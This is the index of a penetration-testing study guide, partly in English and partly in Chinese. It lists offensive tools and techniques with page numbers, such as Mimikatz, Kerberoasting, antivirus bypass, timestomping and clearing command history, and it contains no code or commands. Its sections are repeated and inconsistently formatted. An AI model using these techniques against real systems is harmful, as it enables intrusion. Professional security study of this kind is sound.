###### analyses
- **code**. *See* tools and code analysis
- **packets**，108–109
- **post-engagement activities**，333–337
- **vulnerability**. *See* vulnerability scanning and analysis
- **web content enumeration errors**，70–71

- **AND operator**，350

###### Android Debug Bridge (ADB)
- 230–231

###### Android operating system
- **mobile devices**，220–221
- **SDK tools**，380

- **Android Package Kit (APK)**，223
- **Android Studio**，230

###### Android testing
- **API request capturing**，236–238
- **APK and DIVA**，231
- **overview**，230–231
- **static analysis**，231–236

###### antennas
- **RFID**，150
- **wireless**，131–132

- **Antimalware Scan Interface (AMSI)**，78
- **antivirus (AV) bypass**，77–78
- **Apache Tomcat**，181

###### API
*See* **application programming interface (API)**

- **APK (Android Package Kit)**，223

###### APK Studio tools
- **Android testing**，231–232
- **description**，380

- **ApkX tools**，380
- **APNIC regional registry**，36

- **app.provider.query command**，235
- **appendixes in reports**，332
- **Apple Developer Program**，224
- **Apple Remote Desktop**，312
- **application-layer DoS attacks**，107

###### application programming interface (API)
- **command injection attacks**，160–161
- **keys with theHarvester**，42
- **reports**，329–330
- **request capturing**，236–238
- **web content enumeration**，71

- **applications, mobile devices**，221–223

###### APs
*See* **access points (APs)**

- **ARIN regional registry**，36–38
- **arithmetic operators**，350–351

###### ARP (Address Resolution Protocol)
- **host enumeration**，60–61
- **poisoning**，92–93
- **WEP cracking**，136–139

- **arp command**，60–61
- **arrays**，352
- **ASIA services**，201

###### Assessment and Deployment Kit (ADK)
- 287

###### assets
- **misconfigured**，203–208
- **scope limitations**，7
- **target selection**，19

- **asymmetric key encryption**，103
- **AT commands**，150

###### ATT&CK methodology
*See* **MITRE ATT&CK framework**

- **attack narratives in reports**，327–330
- **attestations in reports**，333
- **audience for reports**，324–325

###### auditing
- **accounts**，203
- **cloud policies**，205
- **compliance and configuration**，81

- **authenticated scans**，79

###### authentication
- **credential harvesting**，196–197
- **recommendations**，338

###### authentication and session management attacks
- **brute-force login pages**，173–176
- **session management testing**，176–180

- **authority factor in influence**，255
- **Automatic Semicolon Insertion (ASI)**，363

###### automation
- **Bash**，366–368
- **ICSs**，240–241

- **autostart folders**，314
- **AV (antivirus) bypass**，77–78
- **AWS Secrets Manager tool**，212
- **az tool**，211

##### B

- **backdoors**，313
- **badge cloning**，151，266

###### baseboard management controller (BMC)
- 240

###### Bash shell
- **automation**，366–368
- **Netcat**，365–366
- **overview**，358–360
- **reverse**，365
- **tools**，380–381

- **basic service set identifiers (BSSIDs)**，125
- **basic service sets (BSSs)**，125
- **beacon frames**，126
- **Beale,Jay**，208

###### BeEF (Browser Exploitation Framework)
- **social engineering attacks**，260–264
- **tools**，381

- **besside-ng tool**，380

###### binary analysis in MobSF
- 230

- **binary searches in blind SQL injection attacks**，164
- **biometric controls recommendations**，340
- **Black Hills Information Security article for AV attacks**，77
- **BLE (Bluetooth Low Energy)**，148–149
- **blind SQL injection attacks**，163–166
- **Blind Testing**，16

###### Bloodhound tool
- **description**，381
- **users and groups**，278

- **bluejacking**，150
- **bluelog scanner**，149
- **Blueprinting process**，149
- **Bluesnarfer tool**，150
- **Bluesnarfing**，150

###### Bluetooth
- **attacks**，149–152
- **device discovery**，149
- **layers**，148
- **specifications**，148–149

- **Bluetooth Low Energy (BLE)**，148–149
- **BlueZ protocol stack**，149
- **BMC (baseboard management controller)**，240
- **boolean operators**，349–350
- **bottom-line up-front (BLUF) approach for reports**，324

###### Brakeman tool
- 381

- **broadcast receivers in Android applications**，221
- **broadcast storms**，112–113

###### Browser Exploitation Framework (BeEF)
- **social engineering attacks**，260–264
- **tools**，381

###### brute-force attacks
- **passwords**，100–101，144
- **RFID devices**，152
- **web content enumeration**，69

- **brute-force login pages**，173–176
- **BSSIDs (basic service set identifiers)**，125
- **BSSs (basic service sets)**，125
- **bump keys**，266–267
- **Bundle container for mobile applications**，223

###### Burp Suite tools
- **Burp Repeater**，183
- **Burp Sequencer**，178–180
- **description**，381
- **directory traversals**，186
- **session management**，176

- **business use case in recommendations**，337

###### bypassing
- **antivirus**，77–78
- **firewalls**，76
- **NAC controls**，114
- **protocol helpers**，77
- **SSL pinning**，228

######## C

- **C# language exploits**，77
- **C2 (command and control)**，308

###### caches in DNS
- **poisoning**，91–94
- **snooping scans**，67


############### 索引

######## C

**Cain 工具**, 382

**呼叫欺骗工具**, 382

**来电显示欺骗**, 258–259

**cap2hccapx 实用程序**, 144

**CAPEC (通用攻击模式枚举与分类)**, 82, 84, 106

**捕获 API 请求**, 236–238

**持卡人数据 (CHD)**, 3

**case 语句**, 348

**CDN (内容分发网络)**, 209

**Censys 搜索引擎**

- 说明, 382
- 信息收集, 53–55

**互联网安全中心 (CIS)**, 81

**CERT 协调中心**, 82

**CERT 漏洞报告表格**, 82

**证书**

- Censys, 53–54
- 移动设备, 223
- OAuth, 202

**CeWL (自定义词表生成器) 工具**

- 说明, 382
- 使用方法, 173–174

**Docker 中的 cgroups**, 239–240

**质询握手认证协议 (CHAP)**, 146

**无线攻击中的信道跳跃**, 133

**CHD (持卡人数据)**, 3

**CHECK 计划**, 3

**chomp 函数**, 351

**cics-enum 脚本**, 73

**Perl 中的 CIDR**, 373

**CIFS (通用互联网文件系统) 协议**, 116

**CIS (互联网安全中心)**, 81

**citrix-enum-apps 脚本**, 73

**类**, 356

**清理**, 342

**清除命令历史**, 316–317

**客户验收**, 342

**克隆**

- 徽章, 266
- RFID 设备, 151

**云攻击**

- 账户与权限, 196–202
- 账户接管, 202
- 以云为中心, 209–212
- 凭据收集, 196–197
- 联邦, 205
- 身份与访问管理, 203–205
- 错误配置的资产, 203–208
- 对象存储, 205–208
- 概述, 195–196
- 密码喷射, 202
- 问题, 213–214
- 复习, 213

**CloudBrute 工具**

- 存储桶猜测, 207–208
- 说明, 383

**CloudCustodian 工具**

- 说明, 382–383
- 错误配置, 205–206

**CME (CrackMapExec) 工具**, 383

**CNA (CVE 编号授权机构)**, 82

**Coagula 工具**, 383

**代码**

- 分析. *请参阅* 工具与代码分析
- iOS 测试中的签名, 224

**逗号分隔值 (CSV) 数据格式**, 352–353

**命令与控制 (C2)**, 308

**命令历史, 清除**, 316–317

**命令注入攻击**, 158–161

**通用攻击模式枚举与分类 (CAPEC)**, 82, 84, 106

**通用发现数据库**, 337

**通用互联网文件系统 (CIFS) 协议**, 116

**常用端口**, 63–64

**常用协议**, 63–64

**通用主题**, 340–341

**通用漏洞披露 (CVE)**, 82–83

**通用漏洞评分系统 (CVSS)**, 80, 82–83, 334

**通用弱点枚举 (CWE)**, 83–84

**沟通**

- 规划, 25–26
- 专业性, 27–28

**SCADA 系统中的通信基础设施**, 241

**合规**

- 审计, 81
- 概念, 2–3
- 基于合规的测试, 3

**计算机, 枚举**, 369–370

**报告中的结论**, 331

**条件语句**, 348–349

**机密性**, 2

**配置**

- 审计, 81
- 不安全, 180–187
- 错误配置, 205–206
- NAC 控制中的弱点, 114

**容器化**

- 云攻击, 208
- 容器化系统, 239–240

**内容分发网络 (CDN)**, 209

**Android 应用中的内容提供程序**, 221

**合同审查**

- 预期设定与 SLA, 25
- 限制, 25
- 概述, 23–24
- 时间管理, 24

**合同官员, 合同审查**, 24

**合同与文档**

- 主服务协议, 9
- 保密协议, 9
- 概述, 8–9
- 测试授权, 10
- 交战规则, 10
- 工作说明书, 9–10

**控制帧**, 126

**会话管理中的 Cookie**, 177–178

**写时复制 (COW)**, 289

**Covenant 工具**, 383

**清理痕迹**

- 命令历史, 316–317
- 文件删除, 319
- 概述, 316
- 时间戳篡改, 317–319

**隐蔽信道**

- 命令与控制, 308
- 概述, 305–306
- Shell 类型, 308
- SSH 隧道, 306–308

**COW (写时复制)**, 289

**cowpatty 命令**, 144

**cpassword 值**, 280

**CrackMapExec (CME) 工具**, 383

**爬取**, 68

**凭据访问**

- 云攻击, 196–197
- 组策略首选项, 279–281
- 本地安全机构, 284–285
- 概述, 279
- 安全账户管理器, 281–284
- 服务主体名称与 Kerberoasting, 286–287
- 无人值守安装, 287

**凭据安全支持提供程序 (CredSSP) 协议**, 312

**凭据扫描**, 79–81

**creds 命令**, 277

**CREST 认证**, 3

**犯罪活动**, 28

**crontab 命令**, 315

**跨域文件**, 70

**跨站请求伪造 (CSRF)**

- 注入攻击, 171–172
- 日志注入, 109

**跨站脚本 (XSS)**

- 注入攻击, 169–171
- 日志注入, 109

**crypt 函数**, 104

**晶盒测试**, 16

**CSRF (跨站请求伪造)**

- 注入攻击, 171–172
- 日志注入, 109

**CSV (逗号分隔值) 数据格式**, 352–353

**自定义词表生成器 (CeWL) 工具**

- 说明, 382
- 使用方法, 173–174

**CVE (通用漏洞披露)**, 82–83

**CVE 编号授权机构 (CNA)**, 82

**CVSS (通用漏洞评分系统)**, 80, 82–83, 334


######## C

**CWE (常见弱点枚举)**, 83–84

**网络攻击链方法**, 11–12

**CyberArk 工具**, 212

**网络安全框架**, 14

**Cydia Impactor 工具**, 224–225

**Cydia 包管理器**, 225

############ D

**守护进程**

- 说明, 90
- 持久化, 316

**极其脆弱的 Web 应用程序 (DVWA)**, 173

**仪表板**

- IAM, 204–205
- recon-ng, 41–42

**移动应用程序的数据容器**, 223

**数据加密标准 (DES)**, 104

**数据渗出**

- 替代协议, 309
- 概述, 305–306

**数据暴露和不安全配置**

- 目录和路径遍历, 184–187
- 概述, 180–181
- 敏感数据, 182–184, 187
- 弱访问控制, 181–182

**数据帧**, 126

**数据结构**

- 数组、字典和列表, 352
- CSV、XML 和 JSON, 352–354
- 键值和键, 351–352
- 概述, 351
- 树, 352

数据库攻击。*请参阅* Web 和数据库攻击

Web 内容枚举中的数据库错误, 71

日期, 时间戳篡改, 317–319

**DCC (直接聊天)**, 77

**DCOM (分布式组件对象模型)**, 311–312

**Dcrack 工具**, 380

**DDoS (分布式拒绝服务) 攻击**

- 以云为中心, 209
- 说明, 107
- STP, 113

WPA 中的解除认证攻击, 131

解码数据包, 109–111

**防御检测和检测规避**

- 检测, 73–75
- 规避, 75–77

**SQL 中的 DELETE 命令**, 162

删除文件, 319

Benjamin Delpy, 282

**拒绝服务 (DoS) 攻击**

- 以云为中心, 209–210
- STP, 113
- 压力测试, 105–108
- 无线, 145–146

**DES (数据加密标准)**, 104

**SQL 中的 DESC 命令**, 162

**检测**

- 防御检测和检测规避, 73–75
- 物理安全, 250

报告受众中的开发人员, 324–325

蓝牙的设备发现, 149

**字典**, 352

字典密码攻击, 100–101, 144

**DirBuster 工具**

- 说明, 383
- Web 内容枚举, 69

直接聊天 (DCC), 77

定向天线, 132

目录遍历, 184–187

**Dirty COW 漏洞**, 289–291

禁止的测试, 8

无线攻击中的发现, 132–133

**分布式组件对象模型 (DCOM)**, 311–312

**分布式拒绝服务 (DDoS) 攻击**

- 以云为中心, 209
- 说明, 107
- STP, 113

报告分发, 332–333

**DIVA**, 231

**DLL (动态链接库)**

- 搜索顺序劫持, 299–300
- SSP, 285

**DNS**。*请参阅* 域名系统 (DNS)

**Docker 容器**, 208, 239–240

**文档对象模型 (DOM) 型跨站脚本**, 170

文档。*请参阅* 合同和文档

Cookie 的 Domain 属性, 177

**域名系统 (DNS)**

- 缓存窥探扫描, 67
- 概述, 89–91
- recon-ng 框架, 40–42
- 侦察, 36–43
- 欺骗和缓存投毒, 91–94
- 目标选择, 20
- theHarvester 工具, 42–43

域, 足迹, 47–49

DoS 攻击。*请参阅* 拒绝服务 (DoS) 攻击

**双盲测试**, 16

双重标记, 113

下载器, JavaScript, 374–375

Dragonblood 攻击, 145

Dragonfly 攻击, 145

**Drozer 工具**

- Android 测试, 232–236
- 说明, 384

垃圾箱搜寻, 265

**DVIA 应用程序**, 230

**DVWA (极其脆弱的 Web 应用程序)**, 173

**动态链接库 (DLL)**

- 搜索顺序劫持, 299–300
- SSP, 285

动态端口

- 说明, 63
- 转发, 307

######## E

电子邮件攻击, 256–258

**EAP-PWD (可扩展认证协议-密码) 认证方法**, 145

**EAPHammer 工具**

- 说明, 384
- 伪造接入点, 146

窃听, 127

**EC2 (弹性计算云)**, 200–201

**ECC (椭圆曲线密码学)**, 131

################ 802.11 无线

- 攻击, 132–147
- Dragonblood 攻击, 145
- 帧, 125–126
- 干扰, 145–146
- 模式, 124–125
- 概述, 123
- 伪造接入点, 146–147
- 安全和加密标准, 127–131
- 会话劫持, 147
- 标准, 123–124
- 测试设备, 131–132
- WEP 破解, 136–141
- WPS 破解, 134–136

**弹性计算云 (EC2)**, 200–201

**椭圆曲线密码学 (ECC)**, 131

嵌入式系统, 243

**Empire 工具**

- 说明, 384
- Kerberoasting, 287

移动设备模拟器, 217–218

Python 语言编码, 372

**加密**

- 802.11 无线, 127–131
- 密码攻击, 103–104
- 建议, 338
- 敏感数据暴露, 187

**Enter-PsSession cmdlet**, 313

**enum_patches 模块**, 297

**枚举**

- AD 用户和计算机, 369–370
- 凭证访问, 279–287
- 发现概述, 274
- 文件, 274–277
- 组, 277–278
- 主机, 58–61
- 网络连接, 279
- 概述, 273
- 系统配置, 277
- 用户, 71–73, 277–278
- Web 内容, 68–71

范围界定的环境考量, 18–19

Web 内容枚举中的错误分析, 70–71

基于错误的 SQL 注入攻击, 163

**提权, 权限**

- 云攻击, 197–202
- Linux, 288–295
- 概述, 287–288
- Windows, 295–305


############### 索引

######## E

- **ESPKey 设备**, 151
- **ESSIDs** (扩展服务集标识符), 125
- **ESSs** (扩展服务集), 125
- **/etc/ettercap/etter.dns 文件**, 91
- **/etc/responder 文件**, 95
- **/etc/shadow 文件**, 119
- **/etc/sudoers 文件**, 293–294
- **Ettercap 工具**
  - 说明, 384
  - 中间人攻击, 91
- **欧盟**, GDPR 法律, 4–5
- **规避**
  - 杀毒软件, 77–78
  - 检测, 75–77
- **邪恶双子**, 146–147
- **移动设备的执行禁止 (XN) 功能**, 219
- **高层管理**
  - 合同审查, 24
  - 报告受众, 324
- **报告中的执行摘要**, 326
- **数据渗出**
  - 替代协议, 309
  - 概述, 305–306
- **合同审查中的预期设定**, 25
- **Cookie 中的 Expires 属性**, 178
- **基于漏洞利用的防火墙绕过**, 76
- **漏洞利用数据库**
  - 盲 SQL 注入攻击, 164
  - 说明, 384
  - Google Hacking Database, 52
- **Exploit-DB 工具**, 115
- **暴露敏感数据**, 182–184, 187
- **扩展服务集标识符 (ESSIDs)**, 125
- **扩展服务集 (ESSs)**, 125
- **可扩展认证协议-密码 (EAP-PWD) 认证方法**, 145
- **可扩展标记语言 (XML) 数据格式**
  - 说明, 353
  - 洪水攻击, 106
- **外部目标**, 21–22

################ F

- **影响力中的恐惧因素**, 255
- **联邦信息处理标准 (FIPS)**, 103, 253
- **联合认证**
  - 云攻击, 205
  - 说明, 197
- **Fern 工具**, 384–385
- **FFC** (有限域密码学), 131
- **文件传输协议 (FTP) 攻击**, 114–116
- **文件**
  - 删除, 319
  - 枚举, 274–277
  - 包含攻击, 188–189
  - 时间戳篡改, 317–319
- **防火墙的过滤器绕过**, 76
- **发现**, 330–331, 333–337
- **指纹识别**
  - 杀毒产品, 77
  - Nmap 数据库, 243
  - 操作系统, 65, 328
  - Web 应用程序, 52
- **利用收集的档案进行组织指纹识别 (FOCA)**
  - 说明, 385
  - 元数据分析, 50
- **有限域密码学 (FFC)**, 131
- **FIPS** (联邦信息处理标准), 103, 253
- **防火墙**
  - 绕过, 76–77
  - 检测, 74–75
- **第一方托管目标**, 22–23
- **洪水攻击**
  - DoS 攻击, 106–107
  - SYN, 65
- **FOCA** (利用收集的档案进行组织指纹识别)
  - 说明, 385
  - 元数据分析, 50
- **后续跟进**, 343
- **足迹, 域**, 47–49
- **伪造数据包**, 109–111
- **419 诈骗**, 257
- **WPA 中的四次握手**, 129–131, 141–143
- **FQDNs** (完全限定域名), 90
- **Android 应用程序中的 Fragment**, 221
- **802.11 无线中的帧**, 125–126
- **Freeman, Jay**, 225
- **Frida 工具**
  - 说明, 385
  - 动态分析, 225–227
- **frida-trace 工具**, 227
- **frida-ps 工具**, 227
- **FTP (文件传输协议) 攻击**, 114–116
- **ftp_login 模块**, 115
- **Full Disclosure 论坛**, 84
- **完全限定域名 (FQDNs)**, 90
- **函数**, 355–356

######## G

- **增益, 天线**, 132
- **gcloud 工具**, 211
- **GCP Secrets Manager 工具**, 212
- **GDB (GNU 调试器)**, 385
- **Gem, Ruby**, 362
- **通用数据保护条例 (GDPR)**, 4–5
- **genpmk 命令**, 144
- **Get-DecryptedCpassword 函数**, 280
- **Get-Item cmdlet**, 318
- **Get-Process cmdlet**, 277
- **getent passwd 命令**, 277
- **GID (组 ID)**
  - 移动设备, 218
  - NFS, 118
- **GitHub**
  - DIVA, 231
  - Dorks, 51–52
  - Dragonslayer, 145
  - FOCA, 50
  - Metasploit, 116
  - MobSF, 230
  - Pacu, 107
  - Scout Suite 工具, 203
  - Shell, 366
  - theHarvester 工具, 42
- **Gitleaks 工具**, 196
- **全球定位系统 (GPS) 数据在无线攻击中的应用**, 133
- **GNU 调试器 (GDB)**, 385
- **Goat Hills Financial Human Resources 应用程序**, 183–185
- **Gobuster 工具**, 385
- **Google Dorks**, 52
- **Google Hacking Database**, 52
- **GoPhish 框架**, 268
- **治理、风险与合规 (GRC)**
  - 概述, 1
  - 法规与合规考量, 2–6
  - 目标选择, 19–23
- **GPP (组策略首选项)**, 279–281
- **GPS (全球定位系统) 数据在无线攻击中的应用**, 133
- **灰盒测试**, 16
- **GRC (治理、风险与合规)**
  - 概述, 1
  - 法规与合规考量, 2–6
  - 目标选择, 19–23
- **grep 命令**, 60
- **组 ID (GID)**
  - 移动设备, 218
  - NFS, 118
- **组策略首选项 (GPP)**, 279–281
- **组临时密钥 (GTK)**, 130
- **组**
  - Docker, 239–240
  - 枚举, 277–278
  - IAM, 203
- **GTK (组临时密钥)**, 130
- **物理安全准则**, 250

######### H

- **半开放扫描**, 65–66
- **握手**
  - Dragonfly, 145
  - TCP, 64–65
  - WPA, 129–131, 141–144
- **移动设备硬件**, 218–219
- **凭证收集**, 196–197
- **hashcat 工具**
  - 说明, 385
  - WPA 破解, 144
- **hashcat-utils 项目**, 144
- **哈希**
  - 破解, 101–105
  - 收集, 95–97
- **HashiCorp Vault 工具**, 212
- **hciconfig 命令**, 149
- **hcitool 命令**, 149
- **劫持**
  - DLL 搜索顺序, 299–300
  - 会话, 147, 178–180
  - SSH, 274
- **历史, 命令**, 316–317


######### H

`HKEY_LOCAL_MACHINE` 配置单元，281

`HKLM\Security\Policy\Secrets` 注册表项，284–285

`HKLM\SYSTEM\CurrentControlSet\services` 键，301

SCADA 系统中的 HMI（人机界面），241

水平权限提升，288

`HostAP` 工具，146

`hostapd-wpe` 工具，146

########## hosts

枚举，58–61

环境考量，18–19

目标选择，22–23

########## Hping (hping3) 工具

描述，386

DoS 攻击，107

HSTS (HTTP 严格传输安全)，187

HTML（超文本标记语言）表单，158

HTTP 严格传输安全 (HSTS)，187

Cookie 的 `HTTPOnly` 属性，177

SCADA 系统中的人机界面 (HMI)，241

移动设备的混合应用程序，222

########## Hydra 工具

暴力破解登录页面，173–176

描述，386

密码攻击，101

超文本标记语言 (HTML) 表单，158

虚拟系统中的管理程序，239

######### I

IaC（基础设施即代码），212

云攻击中的 IAM（身份与访问管理），203–205

IBSS（独立基本服务集），124–125

`icacls` 命令，302

移动应用程序的 iCloud 容器，223

########## ICMP（互联网控制消息协议）

洪水攻击，106–107

数据包检查，109

Ping 扫描，59–61

ICS（工业控制系统），240–242

`IDA` 工具，386

SCADA 系统的 INL（爱达荷国家实验室）研究，242

云攻击中的身份与访问管理 (IAM)，203–205

IDOR（不安全的直接对象引用），183–185

`iex` cmdlet，368–369

`if` 语句，348

`ifconfig -all` 命令，279

映像管理器，287

`Immunity Debugger` 工具，386

`Impacket` 工具，386

`impacket-secretsdump` 命令，282

########## 影响级别

发现，334

信息，253

冒充，254–255

NAC 控制中的实现弱点，114

包含攻击，188–189

独立基本服务集 (IBSS)，124–125

工业控制系统 (ICS)，240–242

社会工程学中的影响方法，255

########## 信息收集与漏洞扫描

主动侦察。 *参见* 主动侦察

概述，35–36

被动侦察。 *参见* 被动侦察

问题，85–87

参考资料，87–88

复习，85

漏洞扫描与分析，78–84

信息影响级别，253

基础设施即代码 (IaC)，212

基础设施无线网络，124–125

WEP 中的初始化向量 (IV)，128–129，138–140

########## 注入攻击

以云为中心的，210–211

命令注入，158–161

跨站请求伪造，171–172

跨站脚本攻击，169–171

LDAP 注入，168–169

概述，157–158

SQL 注入，161–168

INL（爱达荷国家实验室）针对 SCADA 系统的研究，242

不安全的直接对象引用 (IDOR)，183–185

SQL 中的 `INSERT` 命令，162

检查数据包，108–109

安装，无人值守，287

########## 完整性

通信，27–28

概述，29–30

智能平台管理接口 (IPMI) 协议，240

Android 应用程序中的 Intent，221

内部目标，21–22

########## 互联网控制消息协议 (ICMP)

洪水攻击，106–107

数据包检查，109

Ping 扫描，59–61

进程间通信 (IPC)，234

`Invoke-Command` cmdlet，313

`Invoke-Expression` cmdlet，368–369

`Invoke-Kerberoast` PowerShell 脚本，287

`Invoke-Mimikatz.ps1` 命令，284，310

`Invoke-RestMethod` cmdlet，364

########## iOS 操作系统

移动设备安全，219

测试，224–230

`ios sslpinning disable` 命令，228

########## IP 地址

ARP 扫描，60–61

`Censys`，54

修改，373–374

名称解析。 *参见* 域名系统 (DNS)

区域性互联网注册机构，36–39

目标选择，19

IPC（进程间通信），234

`ipconfig /all` 命令，279

IPMI（智能平台管理接口）协议，240

ISECOM，15–16

ISSAF（信息系统安全评估框架），17

IT 部门，合同审查，24

WEP 中的 IV（初始化向量），128–129，138–140

`iwlist` 命令，132

######### J

移动设备的越狱，216–217

无线干扰，145–146

日本计算机应急响应小组 (JPCERT)，82

########## JavaScript 语言

下载器，374–375

概述，363–364

JavaScript 对象表示法 (JSON) 数据格式，353–354

工作轮换，339

########## John the Ripper (JTR) 工具

描述，387

密码攻击，102，104–105

联合测试行动组 (JTAG)，219

JPCERT（日本计算机应急响应小组），82

JSON（JavaScript 对象表示法）数据格式，353–354

JTAG（联合测试行动组），219

########## JTR (John the Ripper) 工具

描述，387

密码攻击，102，104–105

############ K

Karma 攻击，146–147

KCK（密钥确认密钥），129

KDC（密钥分发中心），286

KEK（密钥加密密钥），129

Kerberoasting，286–287

Kerberos 协议，286–287

########## 内核

描述，288

Linux 漏洞利用，289–291

Windows 漏洞利用，295–299

密钥确认密钥 (KCK)，129

密钥分发中心 (KDC)，286

密钥加密密钥 (KEK)，129

键值与键，351–352

键盘记录器，USB，265

`Kismet` 工具


############### 索引

############ D

description, 387

################ W

wireless attacks, 134

############ K

Kubernetes containers, 208, 239–240

################ L

L2CAP (Logical Link Control and Adaptation Protocol), 148

LACNIC regional registry, 36

LAN Manager (LM) hash, 104

############# lateral movement

living off the land, 309–310

overview, 309

pass-the-hash, 310–311

RDP, 312

RPC/DCOM, 311–312

WinRM, 312–313

laws, 2–6

############# layer 2 attacks

overview, 111

STP, 111–113

lbd tool, 73–74

LDAP (Lightweight Directory Access Protocol)

injection attacks, 168–169

searches, 369–370

Leblond, Éric, 77

legal representatives, contract review by, 24

lessons learned, 342

LFI (local file inclusion)

inclusion attacks, 188

log injection, 109

libraries, 357

Lightweight Directory Access Protocol (LDAP)

injection attacks, 168–169

searches, 369–370

likeness factor in influence, 255

linear searches in blind SQL injection attacks, 164

Link-Local Multicast Name Resolution (LLMNR)

attacks, 94–99

overview, 89–90

Link Managing Protocol (LMP), 148

Linux operating system persistence, 315–316

############# Linux privilege escalation

kernel-level exploits, 289–291

overview, 288–289

restrictive shells, 294–295

sudo configurations, 293–294

SUID/SGID executables, 291–292

lists, 352

living off the land (LOL) concept, 309–310

LLMNR (Link-Local Multicast Name Resolution)

attacks, 94–99

overview, 89–90

LM (LAN Manager) hash, 104

LMP (Link Managing Protocol), 148

load balancers, 75–76

`local_exploit_suggester` module, 288–289

local file inclusion (LFI)

inclusion attacks, 188

log injection, 109

Local Security Authority (LSA), 284–285

Local Security Authority Subsystem Service (LSASS), 285

locks and lock picks, 266–267

log injection, 109

############# logic constructs

arithmetic and string operators, 350–351

boolean operators, 349–350

conditionals, 348–349

loops, 349

overview, 347

Logical Link Control and Adaptation Protocol (L2CAP), 148

login pages, brute-force, 173–176

LOL (living off the land) concept, 309–310

loops, 349

LSA (Local Security Authority), 284–285

LSASS (Local Security Authority Subsystem Service), 285

Lua language, 67–68

################ M

MAC addresses. *See* media access control (MAC) addresses

Made for iPhone (MFI) program, 219

Maltego tool

description, 387

information gathering, 45–50

malware injection attacks, 210–211

man-in-the-middle (MiTM) attacks, 312

management frames, 126

mandatory vacations, 339

manual inspection in web content enumeration, 69–70

master services agreements (MSAs), 9

mdk4 tool

description, 387

wireless attacks, 145–146

measures in reports, 331

############# media access control (MAC) addresses

APs, 125–126

ARP scans, 60–61

STP attacks, 112–113

wireless attacks, 139–141

WPA cracking, 141–143

Medusa tool, 387

Meltdown attacks, 211

Memcached systems, 209

message integrity checks (MICs), 129–130

metadata analysis, 50

Metadata service, 201

Metasploit tool

caller ID spoofing, 259

command injection attacks, 158–161

description, 388

evasion, 77

files enumeration, 274–277

FTP, 115

missing patches, 297–298

network attacks, 116

password attacks, 100

psexec module, 295

tutorial, 273

Metasploit Unleashed tutorial, 273

Meterpreter shells

command injection attacks, 158–161

psexec module, 295

SAM files, 282–283

sudo configurations, 294

timestomping, 317–319

methodology in reports, 327–330

metrics

ATT&CK, 12

reports, 331

MFI (Made for iPhone) program, 219

microkernels, 288

Microsoft SQL (MSSQL), 71

MICs (message integrity checks), 129–130

`migrate` command, 283

`mimikatz_command` command, 283

Mimikatz tool

description, 388

Kerberoasting, 287

LSA files, 284–285

pass-the-hash, 311

SAM files, 282–284

misconfigured assets in cloud attacks, 203–208

missing patches in Windows privilege escalation, 297–298

MiTM (man-in-the-middle) attacks, 312

mitm6 tool, 388

############# MITRE ATT&CK framework

covering tracks, 316

DCOM, 311

matrix, 11–12, 82

overview, 11–12

pass-the-hash, 310–311

shell escape, 292

SSPs, 285

sudo configurations, 294

unquoted service paths, 305

vulnerability research, 78

Mobile App Security Checklist, 222

mobile device tests in reports, 330

############# mobile devices

Android testing, 230–238

applications overview, 221–223

emulators and simulators, 217–218

hardware, 218–219

iOS testing, 224–230

operating systems, 219–221

overview, 216

testing, 216–218

Mobile Security Framework (MobSF) tool

description, 388

static analysis, 228–230

Mobile Security Testing Guide, 222, 224

Mobile Top Ten Risks, 221–222

Modbus protocol, 242

monitoring in physical security, 250


############### 索引

################ M

**整体内核**，288

**挂载**，NFS，116–119

**MS-CHAPv2**，146

**MSA（主服务协议）**，9

**msfvenom 命令**

- 杀毒软件绕过，77
- Windows 提权，296–297，302

**MSOLSpray 工具**，202

**MSSQL (Microsoft SQL)**，71

**MST (多生成树)**，112–113

**Mudge, Raphael**，278

**multi/gather/ssh\_creds 模块**，276

**Multi-Relay 工具**，99

**多生成树 (MST)**，112–113

**MySQL**

- 注入攻击。*请参阅* SQL 注入攻击
- Web 内容枚举，71
- Web 目标识别，68

**mysql\_fetch\_assoc 函数**，163

**mysql\_query 函数**，163

############### N

**NAC (网络准入控制) 控制**，绕过，114

**Nagios 服务器**，110–111

**名称解析漏洞利用**

- DNS 欺骗和缓存投毒，91–94
- LLMNR 和 NetBIOS 攻击，94–99
- 概述，89–91

**named 守护进程**，90

**调查结果中的名称**，333

**NASL (Nessus 攻击脚本语言)**，78

**NAT (网络地址转换)**，306

**国家网络安全中心 (NCSC)**，3

**美国国家标准与技术研究院 (NIST)**

- 影响级别，253
- 国家漏洞数据库，82
- 物理安全，251
- 建议概述，14–15
- SCADA 系统，242
- SCAP，81
- 尾随，266
- 漏洞研究，78

**国家漏洞数据库 (NVD)**，82

**NBNS (NetBIOS 名称服务)**，96，98

**Ncat 工具**，388

**NCSC (国家网络安全中心)**，3

**近场通信 (NFC) 设备**，150–152

**知情原则**，29

**Nessus 攻击脚本语言 (NASL)**，78

**Nessus 工具**

- 凭据，79–80
- 说明，388–389
- 检测，73
- 漏洞扫描，78–79

**net group 命令**，278

**net localgroup 命令**，278

**net user 命令**，281

**net view 命令**，279

**NetBIOS (网络基本输入/输出系统)**

- 攻击，94–99
- 概述，89–90

**NetBIOS 名称服务 (NBNS)**，96，98

**Netcat 工具**

- Bash Shell，365–366
- 说明，389

**Netsh 实用程序**，310

**netstat 命令**，279

**基于网络的攻击**

- 第 2 层，111–114
- 名称解析漏洞利用，89–99
- 网络数据包操纵，108–111
- 概述，89
- 密码，99–105
- 问题，120–122
- 研究，114–119
- 复习，119
- 应用程序和协议压力测试，105–108
- VLAN 跳跃，113–114

**网络基本输入/输出系统 (NetBIOS)**

- 攻击，94–99
- 概述，89–90

**网络连接，枚举**，279

**报告中收集的网络信息**，328

**网络级身份验证 (NLA)**，312

**网络映射器 (Nmap)**

- Bash 自动化，367
- 说明，389
- 指纹数据库，243
- 防火墙绕过，77
- 主机枚举，58–61
- 网络攻击，118–119
- 数据包检查，108–109
- 密码攻击，100
- 端口扫描，62–63
- proxychains，308
- SCADA 模块脚本，242
- TCP 扫描，64–65
- UDP 扫描，66–68
- 用户枚举，72–73

**网络数据包操纵**

- 分析和检查数据包，108–109
- 伪造和解码数据包，109–111
- 概述，108

**网络分段建议**，338

**NFC (近场通信) 设备**，150–152

**NFS**，116–119

**Nikto 工具**

- 攻击，367–368
- 说明，389

**ninjacopy 工具**，281

**NIST**。*请参阅* 美国国家标准与技术研究院 (NIST)

**NLA (网络级身份验证)**，312

**Nmap**。*请参阅* 网络映射器 (Nmap)

**Nmap 脚本引擎 (NSE)**，67

**nmap-services 数据库**，67

**非凭据扫描**，79–81

**保密协议 (NDA)**，9

**非传统系统**

- 嵌入式，243
- 概述，240
- 问题，244–247
- 复习，243
- SCADA 和工业控制系统，240–242

**NOT 运算符**，350

**Nping 工具**，61

**nslookup 工具**

- 说明，389
